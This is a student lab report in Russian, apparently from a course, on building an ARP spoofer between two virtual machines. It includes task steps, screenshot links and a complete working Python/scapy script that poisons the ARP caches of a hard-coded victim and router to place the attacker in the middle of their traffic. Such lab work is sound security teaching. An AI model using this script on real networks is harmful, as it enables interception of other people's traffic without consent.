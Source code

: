 # Lab6
## Лабораторная работа - ARP-spoofer
### 1. Поднять в одной сети две виртуальные машины: машину атакующего и машину жертвы. Требований по машинам, как рекомендация - сделать одну из машин (атакующего) kali.
#### Машина атакующего kali:
![2023-02-23_14-38-31](https://user-images.githubusercontent.com/122459067/220903959-66b20d22-f8e4-402e-87d4-81b785ba3190.png)
#### Машина жертвы:
![2023-02-23_16-27-02](https://user-images.githubusercontent.com/122459067/220926638-869a1f33-11d3-42a1-86ca-a3755a9d9cc2.png)
### 2. Исследовать ARP-таблицы и конфигурацию сети на обеих машинах, узнать адрес роутера.
![2023-02-23_17-11-42](https://user-images.githubusercontent.com/122459067/220933394-6257d7da-0598-400c-8d5e-75844f889cac.png)
![2023-02-23_17-16-54](https://user-images.githubusercontent.com/122459067/220933425-b0c8064a-5d80-4995-a9c7-b32768f374b2.png)
![2023-02-23_17-21-42](https://user-images.githubusercontent.com/122459067/220935524-c7d85635-35c3-4f7d-a4b8-d7070e346a2a.png)
![2023-02-23_17-26-26](https://user-images.githubusercontent.com/122459067/220935550-77e30121-7760-4d0f-a8a5-60fd2276cfa1.png)
### 3. Необходимо подредактировать код arp_spoof.py (файл есть в материалах к занятию) таким образом, чтобы весь трафик машины-жертвы шел через машинку атакующего. На машине атакующего стоит проставить ip forwarding, чтобы на второй машине не пропало соединение с интернетом.
#!/usr/bin/env python

import scapy.all as scapy
import time

ATTACKED_HOST_IP = '192.168.45.131'
# ATTACKED_HOST_MAC = '00:0C:29:2F:7F:BE'
ROUTER_IP = '192.168.45.2'
#print(packet.show())
#print(packet.summary())
def get_mac_addr(ip):
    ''' Get mac address by ip '''
    arp_req = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    arp_req_broadcast = broadcast/arp_req
    resp_list = scapy.srp(arp_req_broadcast, timeout=1, verbose=False)[0]

    return resp_list[0][1].hwsrc


def spoof(target_ip, spoof_ip):
    target_mac_addr = get_mac_addr(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac_addr,
        psrc=spoof_ip)
    scapy.send(packet)

while True:
    spoof(ATTACKED_HOST_IP,ROUTER_IP)
    spoof(ROUTER_IP,ATTACKED_HOST_IP)
    time.sleep(2)
![2023-02-24_14-33-48](https://user-images.githubusercontent.com/122459067/221172136-39090dd4-ba5b-46a7-8e0e-fa9af32b83b9.png)

### 4. Запустить написанный скрипт на машине жертвы и исследовать arp-таблицу на машине-жертве.
![2023-02-24_14-23-25](https://user-images.githubusercontent.com/122459067/221172194-931bd109-ac06-42ba-9afe-1232d05f9f11.png)

### 5. Результатом выполнения домашнего задания должны стать три файла:
Доработанный файл с кодом arp_spoof.py.

Скриншот arp-таблицы на машине-жертве во время работы скрипта.
![2023-02-24_14-24-09](https://user-images.githubusercontent.com/122459067/221172342-e3720356-f480-4130-bc1e-2a16652f311a.png)

Вывод команд route -n, ifconfig eth0 на машине атакующего.
![2023-02-24_14-38-23](https://user-images.githubusercontent.com/122459067/221172395-67e1743a-7fdf-4d64-9f7f-2d8e1216876a.png)
![2023-02-24_14-39-10](https://user-images.githubusercontent.com/122459067/221172432-1e0e4e63-4752-4811-a038-52960b3d9c8d.png)

### 6. Advanced* (необязательное задание): написать функцию, восстанавливающую arp-таблицу на машине-жертвы после завершения атаки.
